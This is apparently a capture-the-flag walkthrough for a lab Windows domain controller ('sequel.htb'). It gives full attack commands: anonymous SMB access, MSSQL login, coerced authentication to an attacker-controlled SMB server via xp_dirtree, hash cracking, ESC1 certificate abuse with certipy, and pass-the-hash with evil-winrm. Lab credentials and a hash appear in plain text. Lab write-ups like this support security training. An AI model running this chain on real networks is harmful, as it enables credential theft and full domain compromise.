We start by running Nmap against the provided IP to enumerate the host. We learn that the it is a domain controller, running standard DC services such as DNS, Kerberos, RPC, LDAP, etc. We also notice an exposed MSSQL port. We learn from these results that the domain name is "sequel.htb" and the machine name is "dc".
sudo nmap -sC -sV -p- -T 5 10.129.228.253  We enumerate SMB shares with crackmapexec using anonymous authentication. We notice read permissions on the non-default share "Public" crackmapexec smb 10.129.228.253 -u 'anonymous' -p '' --shares  We list the share's contents using smbclient. We find and download a file called "SQL Server Procedures", in which we find credentials for the MSSQL service. smbclient '//10.129.228.253/Public' -U "" dir get "SQL Server Procedures.pdf"   We use impacket's "mssqlclient" tool to connect to the MSSQL service with the obtained credentials. impacket-mssqlclient -port 1433 sequel/PublicUser:GuestUserCantWrite1@dc.sequel.htb  We force the SQL service account to authenticate to our controlled SMB server by using the xp_dirtree extended stored procedure. We start the SMB server on our machine: impacket-smbserver -smb2support fake . We force the authentication and capture the hash: xp_dirtree \\10.10.14.150\fake   We crack the hash and obtain the cleartext password for the "sql_svc" user. hashcat hash /usr/share/wordlists/rockyou.txt  We use the new credentials to obtain WinRM access to the DC. evil-winrm -i sequel.htb -u sql_svc -p 'REGGIE1234ronnie'  From here, we obtain the credentials “Ryan.Cooper:NuclearMosquito3” by reading the log file found in the "SQLserver" directory at the root of the C drive. type C:\SQLServer\Logs\ERRORLOG.BAK  Using these credentials, we run certipy-ad and discover that the UserAuthentication template is vulnerable to an ESC1 attack. certipy-ad find -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.129.5.105 -vulnerable -stdout  We then request a certificate as the domain administrator and extract the hash out of the certificate. certipy-ad req -ca 'sequel-DC-CA' -dc-ip 10.129.5.105 -u ryan.cooper -p 'NuclearMosquito3' -template UserAuthentication -target sequel.htb -upn administrator  sudo rdate -n 10.129.5.105 && certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'sequel.htb' -dc-ip 10.129.5.105  We can use the hash obtained in the previous step to authenticate via PtH to the DC and establish a WinRM session. evil-winrm -i sequel.htb -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee 